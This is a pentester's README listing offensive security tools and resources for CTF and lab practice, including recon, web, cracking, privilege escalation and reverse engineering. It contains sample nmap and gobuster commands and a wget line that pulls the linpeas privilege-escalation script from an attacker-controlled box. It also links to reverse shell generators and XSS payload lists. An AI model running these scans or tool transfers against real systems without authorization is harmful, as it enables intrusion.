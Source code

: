 # cow-tools

![](https://upload.wikimedia.org/wikipedia/en/thumb/9/9a/Cow_Tools_cartoon.png/220px-Cow_Tools_cartoon.png)

A collection of the pentesting tools and resources I've found and made use of over the years, and maybe some of my own!?

Many of these tools are prebuilt into Kali, and will not need to be installed.

## VMs
- [Kali VMWare](https://www.kali.org/get-kali/#kali-virtual-machines) - Easy images for VM usage. I prefer this over everything and I've frequently wiped VMs with utter disregard.

## General Resources
- [HackTricks](https://book.hacktricks.wiki/en/index.html) - My favorite general hacking wiki. Has awesome documentation for many attack vectors.
- [HackTricks Cloud](https://cloud.hacktricks.wiki/en/index.html) - Hacktricks, but for cloud! Good docs on things like CI/CD, Terraform, and Kubernetes.
- [IppSec](https://www.youtube.com/@ippsec) - Great Youtube channel with HTB writeups. Nice to look at as retros after box completion.
- [Exploit DB](https://exploit-db.com) - List of exploits and PoCs, perfect for when you find a vulnerable service.
- [OWASP Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/) - Great resource for random cheatsheets on various services/technologies.

## Recon & Discovery
- [Nmap](https://nmap.org/) - A classic and mainstay. Most useful and easiest to work with port and network scanner.
  > Very aggro scan: `$ nmap -sS -A -T 5 10.0.0.0`
  >
  > More calm scan: `$ nmap -sS 10.0.0.0`
  >
  > All ports: `$ nmap -sS 10.0.0.0 -p-`
- [Gobuster](https://github.com/OJ/gobuster) - Web app fuzzer, I get a crazy amount of use out of this one. Great for subdomain and dir enumeration.
  > Directory discovery: `$ gobuster dir --url http://site.htb --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`
  >
  > Subdomain/VHost discovery: `$ gobuster vhost --append-domain http://site.htb --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`
- [WhatWeb](https://github.com/urbanadventurer/WhatWeb) - Web app scanner, useful for finding vulnerable versions of software hosting the webapp.
- [FeroxBuster](https://github.com/epi052/feroxbuster) - Quick recursive directory fuzzer.

## Web App
- [Burp Suite](https://portswigger.net/burp) - Web app proxy and repeater for easy introspection and modification of HTTP requests.
- [JWT.io](https://jwt.io) - JWT token parsing and decoding, great for finding token injection parameters or low RSA N values to crack.
- [XSS Payload List](https://github.com/payloadbox/xss-payload-list) - Useful list of common XSS payloads.
- [MITMProxy](https://mitmproxy.org/) - Easy HTTP proxy for port forwarding a localhost webserver.
- [Reverse Shell Generator](https://www.revshells.com/) - Easy way to get a shell made, has many options for style and encoding.
- [Git Dumper](https://github.com/arthaud/git-dumper) - Easily dump git repos from the web

## SQLi
- [SQLMap](https://sqlmap.org/) - Aggressive SQLi finder. Do not use this outside of CTF/OSCP/HTB.

## Scripting
- [PWNTools](https://docs.pwntools.com/en/stable/) - Python library for automating binary exploitation scripts and other CTF related tasks.

## Cryptography
- [HashCat](https://hashcat.net/wiki/doku.php?id=example_hashes) - Hash cracking tool for a variety of hashes.
- [CyberChef](https://gchq.github.io/CyberChef/) - Best online encoding and text parsing. Useful for base64, parsing certs, etc.
- [CrackStation](https://crackstation.net/) - Cached cracked passwords, easy for simple ones like SHA256 and MD5 that may have been popped in breaches. Great for HTB.
- [RSACTFTool](https://github.com/RsaCtfTool/RsaCtfTool) - RSA breaking tool, great for ciphers with weak N values.
- [Alpertron's Integer Factorization Calculator](https://www.alpertron.com.ar/ECM.HTM) - Easily factorize massive integers with elliptic curve or quadtratic sieve.

## Wordlists
- [SecLists](https://github.com/danielmiessler/SecLists) - Favorite wordlists! This has all kinds of stuff for web fuzzing, local directories, etc.
- [RockYou2021](https://github.com/ohmybahgosh/RockYou2021.txt) - Big collected wordlist featuring seclists, crackstation, and more.
- [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule) - Massive Hashcat cracking rule for special password combo attacks.

## Privelege Escalation

### OS Agnostic
- Python HTTP Server - I get a crazy ammount of use out of this to pull down files from my box.
  > Start server: `$ python3 -m http.server 80`
  >
  > Pull file: `wget http://10.10.14.7/linpeas.sh`

### Linux
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - Privesc automation script. Easily find curious things to exploit.
- [GTFOBins](https://gtfobins.github.io/) - Easily exploitable bins to live off the land with. Good for finding SUID exploits.

### Windows
- [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) - Windows privesc automation script. Easily find curious things to exploit.
- [LOLBas](https://lolbas-project.github.io/) - Live off the land with local Windows scripts to get priveleged.

## Reverse Engineering
- [jd-gui](https://java-decompiler.github.io/) - Java decompilation. Perfect for .class files.
- [dnSpy](https://github.com/dnSpy/dnSpy) - Windows dotnet, c# decompilation tool. Nice for DLL files too.
- [Ghidra](https://ghidra-sre.org/) - NSA made disassembly tool. Works well for C, but has a hard time with Rust.
- [Binary Ninja](https://binary.ninja/) - Web based disassembler, sometimes can get results that are hard to find in Ghidra. Much better for rust.

